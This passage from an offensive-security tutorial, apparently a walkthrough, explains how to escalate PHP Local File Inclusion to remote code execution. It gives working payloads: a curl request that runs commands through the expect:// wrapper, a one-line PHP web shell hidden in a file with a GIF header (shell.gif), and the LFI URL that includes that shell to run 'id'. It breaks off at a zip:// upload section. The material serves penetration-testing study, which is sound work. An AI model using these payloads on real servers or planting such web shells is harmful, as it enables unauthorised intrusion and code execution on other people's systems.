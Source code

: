 The expect:// wrapper is used to execute external commands directly through URL streams. It requires the expect PHP extension to be installed and enabled on the server.

RCE via expect://

Shell

```php
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

In this scenario:

We directly execute the id command using the expect:// wrapper.

The result is returned as the output of the HTTP request.

#### **Exploiting LFI and Web File Upload Attacks**

Local File Inclusion (LFI) vulnerabilities can be leveraged to achieve Remote Code Execution (RCE) when combined with web file upload functionalities. Let's explore how we can craft malicious uploads and use them to exploit LFI vulnerabilities effectively.

#### **Image Upload Exploitation**

Web applications often allow users to upload images. Exploiting an LFI vulnerability in such a scenario involves uploading a malicious file (e.g., shell.gif containing PHP code) and then including it via the vulnerable file inclusion mechanism.

#### **Crafting a Malicious Image**

**Create the Malicious Image (shell.gif)**:

Shell

```php
echo '**GIF8**<?php system($_GET["cmd"]); ?>' > shell.gif
```

Here, GIF8 represents the GIF file header, ensuring the file starts with valid image magic bytes.

**Upload the Image**: After uploading shell.gif to the server via the application's upload functionality, assuming the upload directory is accessible (e.g., /profile\_images/), we can include it in our LFI exploit.

#### **Exploiting LFI with Uploaded Image**

Assuming the path to the uploaded image is /profile\_images/shell.gif:

Shell

```php
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

Replace \<SERVER\_IP> and \<PORT> with the appropriate values for your target.

#### **Zip Upload Exploitation**

Some applications may allow uploading zip archives, which can be abused using the zip:// wrapper to execute PHP code stored within the zip file.
